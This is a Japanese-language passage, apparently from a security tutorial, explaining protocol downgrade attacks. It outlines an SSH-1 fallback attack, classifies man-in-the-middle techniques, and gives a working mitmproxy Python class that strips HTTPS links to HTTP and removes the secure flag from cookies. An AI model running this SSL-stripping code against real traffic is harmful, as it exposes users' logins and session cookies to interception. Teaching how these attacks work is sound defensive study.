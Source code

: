 #### 攻撃の流れ
```
1. 攻撃者がSSH-2接続を妨害
2. クライアントがSSH-1にフォールバック
3. SSH-1の脆弱性を悪用して認証をバイパス
4. 不正アクセスを実行
```

### 3. HTTP/HTTPS ダウングレード攻撃

#### SSL Stripping攻撃
```python
# SSL Stripping攻撃の実装例
import re
from mitmproxy import http

class SSLStripAttack:
    def __init__(self):
        self.https_links = {}
    
    def response(self, flow: http.HTTPFlow) -> None:
        if flow.response.headers.get("content-type", "").startswith("text/html"):
            content = flow.response.get_text()
            
            # HTTPSリンクをHTTPに変更
            content = re.sub(
                r'https://([^/\s"\']+)', 
                r'http://\1', 
                content
            )
            
            # セキュアクッキーを通常のクッキーに変更
            content = re.sub(
                r'secure\s*;?\s*', 
                '', 
                content, 
                flags=re.IGNORECASE
            )
            
            flow.response.set_text(content)
```

---

## 攻撃手法の分類

### 1. アクティブ攻撃
攻撃者が積極的に通信に介入する手法

#### 中間者攻撃型
```
特徴: 通信経路に割り込み、リアルタイムで改ざん
対象: プロトコルネゴシエーション、バージョン情報
手法: ARP spoofing, DNS hijacking, BGP hijacking
```
